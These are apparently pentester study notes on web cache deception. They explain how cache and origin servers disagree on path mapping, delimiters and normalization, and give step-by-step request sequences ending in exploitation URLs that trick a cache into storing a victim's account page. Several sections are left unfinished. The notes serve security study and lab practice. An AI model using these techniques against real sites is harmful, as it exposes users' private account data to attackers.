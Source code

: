 # Web cache deception

Web cache deception is a vulnerability where an attacker tricks a web cache into storing sensitive content due to differences in how cache and origin servers handle requests. The attacker lures a victim into visiting a malicious URL, causing the cache to mistakenly store private data as a static resource. The attacker can then access the cached response, gaining unauthorized access to the sensitive information.

More info about web cache: [web-cache.md](../web-security/web-cache.md "mention")

## <mark style="color:yellow;">Constructing a web cache deception attack</mark> <a href="#constructing-a-web-cache-deception-attack" id="constructing-a-web-cache-deception-attack"></a>

1. Identify a target endpoint that returns dynamic responses with sensitive information, focusing on those supporting GET, HEAD, or OPTIONS methods, as they are typically cached
2. Look for discrepancies in how the cache and origin server parse the URL path
3. Craft a malicious URL to trick the cache into storing a dynamic response. When the victim accesses it, their data is cached. Use Burp to request the same URL and retrieve the cached response. Avoid using a browser to prevent redirects or data invalidation.

## <mark style="color:yellow;">Static extension cache rules</mark>

Cache rules often target static resources by matching common file extensions like `.css` or `.js`. This is the default behavior in most CDNs.

### <mark style="color:yellow;">Path mapping discrepancies</mark> <a href="#exploiting-path-mapping-discrepancies" id="exploiting-path-mapping-discrepancies"></a>

<details>

<summary>Path mapping discrepancies (<strong>REST-style vs traditional URL)</strong></summary>

Consider the following example:

`http://example.com/user/123/profile/wcd.css`

* An origin server using **REST-style** URL mapping may interpret this as a request for the `/user/123/profile` endpoint and returns the profile information for user `123`, ignoring `wcd.css` as a non-significant parameter.
* A cache that uses **traditional URL** mapping may view this as a request for a file named `wcd.css` located in the `/profile` directory under `/user/123`. It interprets the URL path as `/user/123/profile/wcd.css`. If the cache is configured to store responses for requests where the path ends in `.css`, it would cache and serve the profile information as if it were a CSS file.

</details>

<pre class="language-sh"><code class="lang-sh"># 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint
<strong>
</strong># 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached
<strong>
</strong><strong># 3. Check if origin server uses REST-style
</strong><strong>/my-account/abc    # The response is identical to the original -> REST-style
</strong><strong>
</strong><strong># 4. Check if cache server uses traditional URL &#x26; explotation
</strong>/my-account/abc.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/my-account/abc.js # 2 time "X-Cache: hit" -> Perfect, the page is cached
# Now https://vulnerable.website.com/my-account/abc.js contains your sensitive data cached

# Find a way to send the victim on http://site.com/my-account/xyz.js
# Note: I omitted cache buster for for simplicity
</code></pre>

{% hint style="info" %}
**Note**:&#x20;

* This attack is limited to the specific endpoint that you tested, as the origin server often has different abstraction rules for different endpoints.
* Try various extensions, such as `.css`, `.ico`, and `.exe`, as caches may have rules for specific extensions.
{% endhint %}

### <mark style="color:yellow;">Delimiter discrepancies</mark> <a href="#exploiting-delimiter-discrepancies" id="exploiting-delimiter-discrepancies"></a>

<details>

<summary>Delimiter discrepancies</summary>

to do

</details>

Objective: identify a character that is used as a delimiter by the origin server but not the cache. Use this list: [https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list)

<pre class="language-sh"><code class="lang-sh"># 1. Find good endpoint
http://site.com/my-account        # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used
http://site.com/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
http://site.com/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached

# 3. Fuzz delimeter char
http://site.com/my-account§§aaa   # Fuzz delimeter char. -> with ";" -> The response matches the original

# 4. Check if delimiter is not used by the cache
http://site.com/my-account        # "X-Cache: miss"
http://site.com/my-account;abc.js # "X-Cache: miss"
# The cache thinks "my-account;abc" is the name and ".js" is the extension

# 5. Exploitation
<strong>http://site.com/my-account;abc.js # 1 time "X-Cache: miss"
</strong>http://site.com/my-account;abc.js # 2 time "X-Cache: hit"
# Now https://vulnerable.website.com/my-account;abc.js contains your sensitive data cached

# Find a way to send the victim on http://site.com/my-account;xyz.js
# Note: I omitted cache buster for for simplicity
</code></pre>

{% hint style="info" %}
**Note**:&#x20;

* Because delimiters are generally used consistently within each server, you can often use this attack on many different endpoints.
*   Some delimiter characters may be processed by the victim's browser before it forwards the request to the cache. This means that some delimiters can't be used in an exploit. For example, browsers URL-encode characters like `{`, `}`, `<`, and `>`, and use `#` to truncate the path.

    If the cache or origin server decodes these characters, it may be possible to use an encoded version in an exploit.
* Make sure to test all ASCII characters and a range of common extensions, including `.css`, `.ico`, and `.exe`
{% endhint %}

### <mark style="color:yellow;">Exploiting delimiter decoding discrepancies</mark> <a href="#exploiting-delimiter-decoding-discrepancies" id="exploiting-delimiter-decoding-discrepancies"></a>

to understand

## <mark style="color:yellow;">Static directory cache rules (normalization discrepancies)</mark> <a href="#exploiting-static-directory-cache-rules" id="exploiting-static-directory-cache-rules"></a>

Web servers often store static resources in specific directories. Cache rules typically target these by matching URL path prefixes like `/static`, `/assets`, `/scripts`, or `/images`.

Premise

* If you type in your browser `https://website/test/../account`, it'll make the following request `GET /account HTTP/2`. &#x20;
* If you type in your browser`https://website/test/..%2faccount`, it'll make the following request `GET /test/..%2faccount HTTP/2`. &#x20;

<pre class="language-sh"><code class="lang-sh"># 1. Find good endpoint
http://site.com/my-account            # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used (with static resources)
<strong>http://site.com/static/js/info.js     # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
</strong>http://site.com/static/js/info.js     # 2 time "X-Cache: hit" -> Perfect, the page is cached
</code></pre>

### <mark style="color:yellow;">Normalization by the origin server</mark> <a href="#exploiting-normalization-by-the-origin-server" id="exploiting-normalization-by-the-origin-server"></a>

<pre class="language-sh"><code class="lang-sh"># 3. Confirm that the cache rule is based on the static directory
http://site.com/static/../xxx         # 1 time "X-Cache: miss"
http://site.com/static/../xxx         # 2 time "X-Cache: hit" -> so all subpages in /static/ will be cached 

# 4. Detecting normalization by the origin server
http://site.com/aaa/..%2fmy-account    # Returns the profile information -> The origin server decodes the slash and resolves the dot-segment

# 5. Detecting normalization by the cache server
http://site.com/static/js/info.js     # 1 time "X-Cache: miss"
<strong>http://site.com/static/js%2finfo.js   # 2 time "X-Cache: miss" -> Cache isn't normalizing the path before mapping it to the endpoint
</strong># So the cache thinks "/static/js/info.js" is different from "/static/js%2finfo.js

# 6. Exploiting
http://site.com/static/..%2fmy-account

# The cache interprets the path as: /static/..%2fmy-account
<strong># The origin server interprets the path as: /my-account
</strong></code></pre>

### <mark style="color:yellow;">Normalization by the cache server</mark>

<pre class="language-sh"><code class="lang-sh"># 3. Confirm that the cache rule is based on the static directory
# This step is useless, so you can't confirm if the cache decodes 
# dot-segments and URL paths without trying an exploit.
<strong>
</strong><strong># 4. Detecting normalization by the origin server
</strong>http://site.com/aaa/..%2fmy-account    # Not found -> The origin server doesn't decode the slash and doesn't resolve the dot-segment

# 5. Detecting normalization by the cache server
http://site.com/static/js/info.js     # 1 time "X-Cache: miss"
http://site.com/static/js/info.js     # 2 time "X-Cache: hit"
http://site.com/static/js%2finfo.js   # 2 time "X-Cache: hit" -> Cache has normalized the path
# So the cache understand that they are the same path

# 6. Identify a delimiter that is used by the origin server but not the cache
http://site.com/my-account§§aaa   # Fuzz delimeter char. -> with "%23" -> The response matches the original

# 7. Check if delimiter is not used by the cache 
http://site.com/static/js/info.js        # "X-Cache: miss"
http://site.com/static/js/info.js%23aaa  # "X-Cache: miss"
# So the cache thinks "info.js" is different from "info.js%23aaa"

# 8. Exploitation
http://site.com/my-account%23%2f%2e%2e%2fstatic/js/info.js

# The cache interprets the path as: /static
# The origin server interprets the path as: /my-account
</code></pre>
